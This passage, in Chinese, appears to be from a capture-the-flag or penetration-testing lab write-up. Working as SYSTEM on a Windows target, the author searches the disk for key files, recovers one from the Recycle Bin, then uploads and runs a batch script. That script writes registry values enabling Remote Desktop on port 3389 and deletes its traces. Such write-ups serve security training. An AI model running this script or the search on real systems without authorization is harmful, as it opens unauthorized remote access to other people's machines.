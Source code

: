 ![image.png](https://img.ghostliner.top/HXMzQ6.png)

发现当前用户为 `System`

![image.png](https://img.ghostliner.top/T3btSl.png)

查找 `key.txt`，只找到网站根目录的 key

```batch
for /r "c:\" %i in (key*.txt*) do echo %i
```

![image.png](https://img.ghostliner.top/uXtYy0.png)

猜测 key3 在回收站

> [!NOTE]
> 
> 放入回收站的文件会被改名，且分为两个文件：
> 一个保存文件原路径，一个保存文件原内容。

查看回收站内容

![image.png](https://img.ghostliner.top/MoWeSa.png)

发现路径文件

![image.png](https://img.ghostliner.top/HAKqM8.png)

###### 获取到 key3

发现 key.txt 文件内容

![image.png](https://img.ghostliner.top/vEpiTS.png)

### 4.3. 开启远程桌面

上传 `3389.bat` 脚本并执行

```batch
@REM 3389.bat
echo Windows Registry Editor Version 5.00>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]>>3389.reg 
echo "fDenyTSConnections"=dword:00000000>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
regedit /s 3389.reg 
del 3389.reg
```

![image.png](https://img.ghostliner.top/qFpbei.png)
